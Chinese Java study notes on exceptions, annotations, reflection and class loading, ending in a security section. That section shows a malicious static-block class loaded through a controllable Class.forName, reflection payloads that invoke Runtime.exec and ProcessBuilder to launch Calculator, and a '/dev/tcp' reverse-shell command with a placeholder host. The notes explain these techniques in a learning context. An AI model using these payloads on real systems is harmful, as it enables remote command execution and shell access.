

# 异常

Java中的异常继承体系如下：

 

Mac上可用`Command+option+T`来快速生成

```java
try {
  
}
catch(){
  
}
finally{
  
}
```

# 注解

其实我们前面已经使用过注解了，子类对父类的覆写时我们使用的@Override实际上就是一种注解。注解不是程序本身，是对代码的某种解释，但是不像注释一样完全被编译器忽略而是会被编译器读取（比如使用@Override时没正确覆写程序会报错）

注解的通用格式是@注释名（和Python中装饰器的写法类似）

注解可以附加在package、class、field、method等上面，相当于给他们添加了额外的辅助信息。

## 内置注解

内置注解即我们可以直接调用的注解，常用的有以下几个：

- @Override：此注解只能用于方法上，表示一个子类方法要覆写父类中的一个方法
- @Deprecated：此注解可以用于修饰方法、类、属性，表示不推荐使用这些元素
- @SuppressWarnings：此注解用以抑制编译时产生的警告信息，该注解需要添加一个参数才能使用，参数有很多，最常用的是`@SuppressWarnings("all")`即抑制所有警告。

## 元注解

元注解就是注解其他注解的注解，查看@Override和@Deprecated这个注解的定义：

```java
@Target(ElementType.METHOD)
@Retention(RetentionPolicy.SOURCE)
public @interface Override {
}
```

```
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(value={CONSTRUCTOR, FIELD, LOCAL_VARIABLE, METHOD, PACKAGE, MODULE, PARAMETER, TYPE})
public @interface Deprecated {
    /**
     * Returns the version in which the annotated element became deprecated.
     * The version string is in the same format and namespace as the value of
     * the {@code @since} javadoc tag. The default value is the empty
     * string.
     *
     * @return the version string
     * @since 9
     */
    String since() default "";

    /**
     * Indicates whether the annotated element is subject to removal in a
     * future version. The default value is {@code false}.
     *
     * @return whether the element is subject to removal
     * @since 9
     */
    boolean forRemoval() default false;
}
```

可以看到最上面还有@Target和@Retention两个注解，这两个便是两个元注解，常用的元注解有以下几个：

- @Target：表示这个注解可以用在哪些元素上面，如@Override只能用于方法上面就是ElementType.METHOD，@Deprecated就是value={CONSTRUCTOR, FIELD, LOCAL_VARIABLE, METHOD, PACKAGE, MODULE, PARAMETER, TYPE}，
- @Retention：表示在什么级别保存该位置信息（SOURCE<CLASS<RUNTIME）
- @Document：表示该注解将被包含在JavaDoc中
- @Inherited：表明子类可以继承父类中的该注解

## 自定义注解

自定义注解的格式其实可以参考上面两个注解的定义，采用关键词@interface进行定义

- 其中声明的每一个方法其实对应每一个参数，并且方法的名称就是参数的名称。并且返回值就是参数的类型
- 可以使用default关键字指定默认值
- 注解时传参不在意顺序，如果只有一个参数需要传参，可以直接传值

实际例子：

```java
import java.lang.annotation.*;

public class Anno {
    @Myanno(name = "KW",id = 10)
    public static void main(String[] args) {

    }
}

@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target({ElementType.METHOD,ElementType.FIELD,})
@interface Myanno{
    String name() default "Subo";
    int id() default -1;
}
```

# 反射

## Class类

Class类位于Java.lang下，因此可以无需导包引入

Class类的对象内容是你创建的类的类型信息，比如创建一个Student类，那么加载完类后在堆中就产生了描述Student类的Class对象（**一个类只有一个Class对象**），通过这个对象我们可以得到Student类的结构（比如父类，子类，哪些方法之类的）；我觉得Class类可以称为**描述类的类**

### 得到Class对象

常用的得到Class对象的方法有以下几种：

- 通过对象实例获得：

  ```java
  Class c1 = 对象实例.getClass()
  ```

  其中getClass()方法是Object类中定义的方法`public final Class getClass()`，用法示例如下：

  ```java
  Student stu = new Student();
  Class c1 = stu.getClass();
  ```

- 通过类名称获得：

  每个类名都有一个自己的静态属性class，其返回该类的Class对象，用法示例如下：

  ```java
  Class c2 = Student.class;
  ```

- 通过Class类的静态方法forName获得：

  Class类的forName方法可以传入一个类名得到对应的Class对象，用法示例如下：

  ```java
  Class c3 = Class.forName("Stu");
  ```

- 基本数据类型的包装类都有一个Type属性，通过该属性可以直接得到其对应的Class对象：

  ```java
  Class c4 = Integer.TYPE;
  ```

## 所有类型的Class对象

基本上所有类型都能有Class对象.

```java
Object.class;    //类
Comparable.class;    //接口
String[].class;    //一维数组
int[][].class;    //二维数组
Override.class;    //注解
ElementType.class;    //枚举
Integer.class;    //基本数据类型
void.class;    //void
Class.class;    //Class
```

## 类加载内存分析

一个类被经过编译器编译成.class文件后，当程序主动使用某个类时，如果该类还未被加载到内存中，则系统会通过以下几个步骤来进行类的初始化。


有几个比较值得注意的点：

1、类的加载过程中生成了Class对象。

2、类的链接过程中为**类变量（静态变量）在方法区分配内存**，并设置默认值(实例变量是对象分配到堆内存时根据运行时动态生成)。

3、初始化一个类时，如果其父类还未初始化，那么会先触发其父类的初始化。

4、类的初始化过程是这样的：按照顺序自上而下运行类中的变量赋值语句和静态语句，如果有父类，则首先按照顺序运行父类中的变量赋值语句和静态语句。（**静态代码块总是被最优先执行的，且在类的初始化阶段就已完成**）

Person p = new Person("zhangsan",20); 该句话都做了什么事情？

 1，因为new用到了Person.class.所以会先找到Person.class文件并加载到内存中。

 2，执行该类中的static代码块，如果有的话，给Person.class类进行初始化。

 3，在堆内存中开辟空间，分配内存地址。 

4，在堆内存中建立对象的特有属性。并进行默认初始化。

 5，对属性进行显示初始化。

 6，对对象进行构造代码块初始化。

 7，对对象进行对应的构造函数初始化。 

8，将内存地址付给栈内存中的p变量。

### 什么时候会发生类的初始化

- 虚拟机启动，先初始化main方法所在类
- new一个类的对象
- 调用类的静态成员和静态方法
- 使用反射对类进行反射调用
- 初始化一个类如果其父类未被初始化，则会先初始化其父类

什么时候不会发生类的初始化

- 子类引用父类的静态变量，不会导致子类初始化
- 通过数组定义类引用，不会触发类的初始化
- 引用常量不会触发类的初始化

而Class类的forName方法

```java
Class.forName(className)
// 等于
Class.forName(className, true, currentLoader)
```

第二个参数的true表示是否进行类的初始化，可以看到默认情况下是true的，而从上面可以看到类的初始化时会执行静态代码块，因此假如有以下代码：

```java
public void ref(String name) throws Exception {
 Class.forName(name);
}
```

其中name可控，我们就可以编写⼀个恶意类，将恶意代码放置在`static {}`中，从⽽执⾏：

```java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/success"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

### 类加载器

类加载器的作用是加载Java类到 JVM中（也即发生在上面图中的Load的阶段）。类加载器负责读取 Java 字节代码，并转换成 `java.lang.Class`类的一个实例。

主要有以下几种类加载器：

引导类加载器：负责加载和JVM启动相关的类的加载，如Java.lang.Object类就是由引导类加载器加载的。

拓展类加载器：负责加载<JAVA_HOME>\lib\ext目录中，或者被java.ext.dirs系统变量所指定的路径中所有的类库。

系统类加载器：负责加载用户类路径上所有的类库，如果没有自定义类加载器，一般情况下这个加载器就是程序中默认的类加载器。

自定义类加载器

Java默认的 ClassLoader 就是根据类名来加载类， 这个类名是类完整路径，如 java.lang.Runtime

#### 双亲委派机制


双亲委派机制就是如果一个类加载器收到了类加载请求，它并不会自己先去加载，而是把这个请求委托给父类的加载器去执行，如果父类加载器还存在其父类加载器，则进一步向上委托，依次递归，请求最终将到达顶层的启动类加载器，如果父类加载器可以完成类加载任务，就成功返回，倘若父类加载器无法完成此加载任务，子加载器才会尝试自己去加载，这就是双亲委派模式，即每个儿子都很懒，每次有活就丢给父亲去干，直到父亲说这件事我也干不了时，儿子自己想办法去完成。

### 类加载器相关方法

得到系统类加载器：

```java
ClassLoader classLoader = ClassLoader.getSystemClassLoader();
```

拓展类加载器是系统类加载器的父类：

```ja
ClassLoader classLoader = ClassLoader.getSystemClassLoader().getParent();
```

而引导类加载器是不能通过代码直接得到的（Java9开始可以）

Class对象的getClassLoader()方法可以得到当前类的加载器类型。

```java
ClassLoader classLoader = Class.forName("java.lang.Runtime").getClassLoader();
该代码返回为null，因为该类为引导类加载器加载。
```

## 从Class对象得到类的结构

从Class对象可以得到类的各种结构

- 得到类名称

  ```java
  Class c1 = Student.class;
  System.out.println(c1.getName());    //得到包名+类名
  System.out.println(c1.getSimpleName());    //得到类名
  ```

- 得到类的属性，getDeclaredFields()可以得到类的所有属性并返回一个属性列表

  ```java
  Class c1 = Student.class;
  Field[] fields = c1.getDeclaredFields();
  for (Field field : fields) {
      System.out.println(field);
  }
  ```

  getFields()得到类的所有public修饰的属性列表

  ```java
  Class c1 = Student.class;
  Field[] fields = c1.getFields();
  for (Field field : fields) {
      System.out.println(field);
  }
  ```

  得到具体的某个属性可以用getDeclaredField()和getField()

  ```java
  Field name = c1.getDeclaredField("name");
  Field name = c1.getField("name");
  ```

  同理，getField()方法也只能得到public修饰的属性，如果找不到则会抛出一个NoSuchFieldException.

- 得到类的方法

  getDeclaredFields()可以得到类的所有方法并返回一个方法列表

  ```java
  Class<Student> c1 = Student.class;
  Method[] methods = c1.getDeclaredMethods();
  for (Method method : methods) {
    System.out.println(method);
  }
  ```

  getMethods()得到类**及其父类**的所有public修饰的方法列表（⚠️：getDeclaredFields()只能得到自己本类的方法），如：

  ```java
  Class<Student> c1 = Student.class;
  Method[] methods = c1.getMethods();
  for (Method method : methods) {
    System.out.println(method);
  }
  
  Output:
  public java.lang.String Student.getName()
  public void Student.setName(java.lang.String)
  public int Student.getAge()
  public void Student.setAge(int)
  public final void java.lang.Object.wait(long,int) throws java.lang.InterruptedException
  public final void java.lang.Object.wait() throws java.lang.InterruptedException
  public final native void java.lang.Object.wait(long) throws java.lang.InterruptedException
  public boolean java.lang.Object.equals(java.lang.Object)
  public java.lang.String java.lang.Object.toString()
  public native int java.lang.Object.hashCode()
  public final native java.lang.Class java.lang.Object.getClass()
  public final native void java.lang.Object.notify()
  public final native void java.lang.Object.notifyAll()
  ```

  得到具体的某个方法可以用getDeclaredMethod()和getMethod()，不过与getDeclaredField()和getField()不同，由于类的方法存在重载，因此还需要传入参数使用的Class对象。如：

  对于该方法：

  ```java
  private void test(String para1,int para2){
    System.out.println(para1);
    System.out.println(para2);
  }
  ```

  则通过getDeclaredMethod()得到该方法时需传入两个相应Class对象参数：

  ```java
  Method method = c1.getDeclaredMethod("test", String.class, int.class);
  ```

  而getMethod()则无法得到该方法（只能得到public修饰的子类与父类方法）

- 得到类的构造方法

  通过getDeclaredFields()和getFields()无法直接得到类的构造方法。采用getDeclaredConstructors()和getConstructors()得到类的全部构造方法（与前面的方法类似，getDeclaredConstructors()可以得到全部构造方法，getConstructors()可以只能得到public修饰的构造方法）

  ```
  Constructor<?>[] constructors = c1.getDeclaredConstructors();
  for (Constructor<?> constructor : constructors) {
      System.out.println(constructor);
  }
  ```

  得到具体的某个构造方法可以用getDeclaredConstructor()和getConstructor()，传入参数为参数所对应的Class对象：

  ```java
  Constructor<Student> constructor = c1.getDeclaredConstructor(String.class, int.class);
  ```

## 创建类实例并调用方法

### 创建类实例

得到Class对象后，我们可以根据该Class对象创建一个新对象并调用方法，创建一个类的对象主要有两种方法

- 通过newInstance()方法调用类的无参构造得到对象。

  ```
  Class<Student> c1 = Student.class;
  Student student = c1.newInstance();
  ```

​		不过newInstance()方法在JKD9以后已经被弃用（代码中有`@Deprecated(since="9")`的注解），而且只能调用无参构造方法，应尽		量避免使用。

- 使用newInstance()方法有两个前提：

  ​		1、该类必须有一个无参构造方法

  ​		2、类的构造方法访问权限不能是private

  那么有人可能会问，类的构造方法是private有什么意义么？这涉及到设计模式里面的“单例模式”，比如，对于Web应用来说，数据库连接只需要建立一次，而不是每次用到数据库的时候再新建立一个连接，此时作为开发者你就可以将数据库连接使用的类的构造函数设置为私有，然后编写一个静态方法来获取：

  ``` java
  public class TrainDB {
  private static TrainDB instance = new TrainDB();
  public static TrainDB getInstance() {
  return instance;
  }
  private TrainDB() {
  // 建立连接的代码...
  }
  }
  ```

  这样，只有类初始化的时候会执行一次构造函数，后面只能通过getInstance()获取这个对象，避免建立多个数据库连接。		

- 通过getDeclaredConstructor()创建对象。

  ```java
  Class<Student> c1 = Student.class;
  Constructor<Student> constructor = c1.getDeclaredConstructor(String.class, int.class);
  Student student = constructor.newInstance("Sushuo", 18);
  ```

### 通过反射调用类的方法

要调用方法的话首先需要利用getDeclaredMethod()和getMethod()得到一个方法对象。

```java
Method method = c1.getDeclaredMethod("getAge", null);
```

然后调用该Method对象的invoke方法执行方法，

invoke 的作用是执行方法，它的第一个参数是： 

1、如果这个方法是一个普通方法，那么第一个参数为之前通过getDeclaredConstructor()创建的对象 

2、如果这个方法是一个静态方法，那么第一个参数为类的Class对象

其后的参数为所调用方法需要的参数：

```java
Class<Student> c1 = Student.class;
Constructor<Student> constructor = c1.getDeclaredConstructor(String.class, int.class);
Student student = constructor.newInstance("Sushuo", 18);
Method method = c1.getDeclaredMethod("getAge");
System.out.println(method.invoke(student));
```

### 通过反射操作类的属性

要操作类的属性，需要先用getDeclaredField()和getField()得到一个属性对象

```java
Field name = c1.getDeclaredField("name");
```

然后调用属性对象的set方法设置属性。(第一个传入的参数为之前通过getDeclaredConstructor()创建的对象，第二个是设置的值)

```java
name.set(student,"kkp");
```

但是当该值权限修饰为private时，不能直接修改值，需要在修改前调用setAccessible()设置可以关闭访问检查：

```java
name.setAccessible(true);
```

完整代码如下：

```java
Class<Student> c1 = Student.class;
Constructor<Student> constructor = c1.getDeclaredConstructor(String.class, int.class);
Student student = constructor.newInstance("Sushuo", 18);
Field name = c1.getDeclaredField("name");
name.setAccessible(true);
name.set(student,"kkp");
```

而读取类的属性的话则调用get方法，传入的参数为之前通过getDeclaredConstructor()创建的对象

```java
Class<Student> c1 = Student.class;
Constructor<Student> constructor = c1.getDeclaredConstructor(String.class, int.class);
Student student = constructor.newInstance("Sushuo", 18);
Field name = c1.getDeclaredField("name");
name.setAccessible(true);
name.set(student,"kkp");
String name1 = student.getName();
System.out.println(name1);
System.out.println(name.get(student));
```

### 考虑下Java安全

#### java.lang.Runtime

Java中我们常用`java.lang.Runtime`这个类来执行命令，由于Runtime类就是单例模式（构造函数是私有的），我们只能通过 Runtime.getRuntime() 来获取到 Runtime对象，因此通过反射执行命令的Payload为：

```java
Class c1 = Class.forName("java.lang.Runtime");
Object runtime = c1.getDeclaredMethod("getRuntime").invoke(c1);
c1.getDeclaredMethod("exec", String.class).invoke(runtime,"open -a Calculator.app");
```

而我们知道在反射中，我们其实可以直接用`setAccessible()` 修改它的作用域，因此也可以有以下Payload：

```java
Class c1 = Class.forName("java.lang.Runtime");
Constructor constructor = c1.getDeclaredConstructor();
constructor.setAccessible(true);
c1.getDeclaredMethod("exec", String.class).invoke(constructor.newInstance(),"open -a Calculator.app");
```

#### java.lang.ProcessBuilder

常用的另一种执行命令的方式则是利用ProcessBuilder。ProcessBuilder有两个构造函数：

- `public ProcessBuilder(List command)`
- ` public ProcessBuilder(String... command)`

使用第一个构造方法构造Payload：

```java
Class c2 = Class.forName("java.lang.ProcessBuilder");
clazz.getMethod("start").invoke(c2.getConstructor(List.class).newInstance(Arrays.asList("open","-a","Calculator.app")));
```

第二种构造方法涉及了Java里的可变长参数。正如其他语言一样，Java也支持可变长参数，就是当你定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变的”。

对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价的：

```java
public void hello(String[] names) {}
public void hello(String...names) {}
```

**那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。**

所以，我们将字符串数组的类`String[].class`传给`getConstructor`，获取ProcessBuilder的第二种构造函数：

```java
Class c2 = Class.forName("java.lang.ProcessBuilder");
c2.getConstructor(String[].class)
```

**在调用`newInstance`的时候，因为这个函数本身接收的是一个可变长参数，我们传给ProcessBuilder的也是一个可变长参数，二者叠加为一个二维数组，**Payload如下：

```java
Class c2 = Class.forName("java.lang.ProcessBuilder");
((ProcessBuilder)c2.getConstructor(String[].class).newInstance(new
String[][]{{"open","-a","Calculator.app"}})).start();
```

因为该Payload运用了强制类型转换，有时候我们利用漏洞的时候（在表达式上下文中）是没有这种语法的。完全反射形式为：

```java
Class c2 = Class.forName("java.lang.ProcessBuilder");
c2.getDeclaredMethod("start").invoke(c2.getConstructor(String[].class).newInstance(new String[][]{{"open","-a","Calculator.app"}}));
```

P神的Java安全漫谈写的实在太好了，呜呜呜大段直接抄了P神的内容。

#### 反弹shell

这里顺便讨论下exec执行命令时可能出现的失效问题，我们可能会试图通过以下的方法来执行反弹shell：

```java
Runtime runtime = Runtime.getRuntime();
runtime.exec("bash -i &> /dev/tcp/ip/port 0>&1");
```

但是实际上这种方法并不能成功的反弹shell，我们来仔细探究下原因，看下exec函数的内部实现：

```java
public Process exec(String command) throws IOException {
        return exec(command, null, null);
}

public Process exec(String command, String[] envp) throws IOException {
        return exec(command, envp, null);
}

public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");

        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);
}

public Process exec(String cmdarray[]) throws IOException {
        return exec(cmdarray, null, null);
}

public Process exec(String[] cmdarray, String[] envp) throws IOException {
        return exec(cmdarray, envp, null);
}

public Process exec(String[] cmdarray, String[] envp, File dir)
        throws IOException {
        return new ProcessBuilder(cmdarray)
            .environment(envp)
            .directory(dir)
            .start();
}
```

可以看到总共有六个重载方法，但是其实他们彼此之间都是存在依赖关系的，即最后都是调用了相同的重载方法



当我们传入一个String类型的参数时，会先经过`exec(String command, String[] envp, File dir)`的处理得到一个cmdarray.

我们来看下`exec(String command, String[] envp, File dir)`的处理过程：

```java
public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");

        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);
}
```

可以看到利用StringTokenizer()来为cmdarray生成元素：

```java
public StringTokenizer(String str) {
  this(str, " \t\n\r\f", false);
}
```

就当字符串有" \t\n\r\f"这些元素时，会以这些元素对字符串进行split得到cmdarray

```java
"bash -i &> /dev/tcp/ip/port 0>&1"
会被分割为：
{"bash","-i","&>","/dev/tcp/ip/port","0>&1"}
```

然后我们来跟下最终的`exec(String[] cmdarray, String[] envp, File dir)`，可以看到其实将cmdarray作为参数传入了ProcessBuilder


# 参考内容

狂神说Java

P神的Java安全漫谈     [P神的知识星球](https://govuln.com/)


